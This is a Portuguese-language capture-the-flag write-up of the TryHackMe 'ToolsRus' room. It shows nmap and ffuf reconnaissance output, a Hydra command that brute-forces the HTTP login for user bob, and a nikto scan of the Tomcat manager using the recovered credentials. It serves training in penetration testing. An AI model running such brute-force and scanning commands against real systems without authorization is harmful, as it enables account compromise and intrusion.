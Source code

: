 ```yaml
---
title: 'TryHackMe: ToolsRus'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Hydra, Nikto, Nmap, ffuf, Metasploit]
image:
  path: assets/images/tryhackme/toolsrus/room.png
---
```


Ok, o objetivo é usar as ferramentas propostas. Vamos começar com o clássico Nmap:


```
nmap -p- -T4 <ip_alvo>

Nmap scan report for 10.10.168.149
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13

Nmap done: 1 IP address (1 host up) scanned in 623.11 seconds

```

Eu adoraria rodar dirbuster como pede a atividade porém ele é tão lento que eu desisti. Estou rodando ffuf.

```

ffuf -u http://10.10.168.149/FUZZ -w /usr/share/wordlists/dirb/common.txt       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.168.149/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 168, Words: 16, Lines: 5, Duration: 211ms]
.htpasswd               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 215ms]
.htaccess               [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 215ms]
.hta                    [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 216ms]
guidelines              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 209ms]
index.html              [Status: 200, Size: 168, Words: 16, Lines: 5, Duration: 210ms]
protected               [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 211ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 244ms]
:: Progress: [4614/4614] :: Job [1/1] :: 191 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
                                                                                             

```
Com isso já temos a primeira, segunda e terceira resposta.

Como eu quero descobrir a conta do bob, vou rodar um hydra.

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -f 10.10.168.149 http-get /protected -t 4 -V
```

Com isso descobrimos a senha.

A pergunta da outra porta que serve serviço web pode ser resolvida com a saída do nmap.

Colocando o serviço no browser conseguimos ver a versão e responder mais outra pergunta.


Vamos escanear usando nikto.
```
nikto -h http://10.10.168.149:1234/manager/html -id bob:bubbles -o resultado.txt
```